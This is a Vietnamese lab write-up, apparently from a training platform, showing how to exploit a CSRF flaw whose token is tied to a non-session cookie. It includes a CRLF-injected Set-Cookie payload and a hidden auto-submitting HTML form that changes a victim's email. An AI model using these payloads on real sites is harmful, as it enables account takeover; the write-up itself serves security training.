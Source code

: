 # CSRF where token is tied to non-session cookie

### Yêu cầu: Tạo thẻ HTML để tấn công CSRF thay đổi email của tài khoản người dùng

### Hướng làm: 

Ở đây chúng ta có 2 tài khoản có vai trò như nhau để sử dụng cho việc tấn công. 

Giả sử `wiener:peter` là nạn nhân còn `carlos:montoya` là người tấn công, ta sẽ làm thay đổi email của tài khoản `wiener`

Đầu tiên ta sẽ đăng nhập vào tài khoản của `wiener` để bắt request.

![image](https://user-images.githubusercontent.com/72268643/157825413-5bf30232-67fb-41cc-b9ef-33c45711578e.png)

Ta có giá trị token của `wiener`: 

`session=mZ6Y1jPzy7B8Drj3NbRobcdyMumnbt2J` `csrfKey=sxRjr2fxtc8LqrIeYq2lMHVfd9qXy9Hf` `csrf=qVkhiR4WkC5YRZe9jGo0ixFYJjzK7E4z`

Làm tương tự (mở tab ẩn danh) ta có giá trị token của `carlos`: 

`session=6d7PCfOaX2sDc9OTWo3cHlycAGUlaXdZ` `csrfKey=WAahHg66n8H2xWy7DrxZqAiIv7ntuQJV` `csrf=b3P3hSElLLLXAQnrIyQixNtbqE1Rh2oa`

Ở lab này, các giá trị token `csrf` được xác thực với giá trị phiên `csrfKey` khi thực hiện các thao tác trong phiên đăng nhập của người dùng. Tuy nhiên, 2 giá trị đó lại không phụ thuộc vào giá trị phiên `session` . Vậy nên để có thể tấn công, ta sẽ phải ghi đè lên biến `csrfKey` của `wiener` bằng giá trị của `csrfKey` của `carlos` rồi thực hiện tấn công.

Thêm 1 điều nữa: so với các lab trước thì ta thấy lab này có thêm công cụ search. Để ý tới các cookie thì hiện tại ta có 2 cookies là:

![image](https://user-images.githubusercontent.com/72268643/157827403-686adee5-c62f-4cd4-8af9-23345a6aba30.png)

Sau khi thực hiện search với 1 từ khóa bất kì, ta thấy xuất hiện thêm 1 cookie ghi lại từ cuối cùng chúng ta search:

![image](https://user-images.githubusercontent.com/72268643/157827617-4fed5e56-4cf9-452a-8f32-3eae3c1a7c8d.png)

Vậy là trang web này đã tạo thêm được cookie. Qua đó, ta có thể thực hiện việc đặt giá trị mới cho các cookies.

Đầu tiên ta sẽ bắt request search đó. Sau đó thêm vào câu lệnh `%0d%0aSet-Cookie:%20csrfKey=WAahHg66n8H2xWy7DrxZqAiIv7ntuQJV` để ghi đè giá trị `csrfKey`. ta được kết quả:

![image](https://user-images.githubusercontent.com/72268643/157829941-a0d813bf-3165-4582-85cd-fd700a8fd315.png)

Vậy là ghi đè thành công. Khi thực hiện viết PoC, ta sẽ thêm 1 thẻ `img` để thực hiện việc ghi đè này như sau: 
```
<html>
  <body>
    <h1>Hello World</h1> <!-- Phần được hiển thị-->
    <iframe style="display:none;" name="csrf-iframe"></iframe> <!-- Để ẩn thẻ form khi hiển thị tới nạn nhân -->
    <form action="nơi_khai_thác_CSRF_ở_trên_trang_web_đó" method="POST" id="csrf-form">
      <input type="hidden" name="email" value="email_mà_bạn_muốn_đổi">
      <input type="hidden" name="csrf" value="token_của_người_tấn_công" />
    </form>
    <img style="display:none;" src="đường_link_thực_hiện_việc_ghi_đè_csrfKey" onerror="document.forms[0].submit()"> <!-- Thẻ này chứa link việc ghi đè csrfKey và dùng event onerror để thực hiện hành vi đó -->
  </body>
</html>
```

Sau đấy gửi lên phía server và gửi cho nạn nhân để hoàn thành lab.
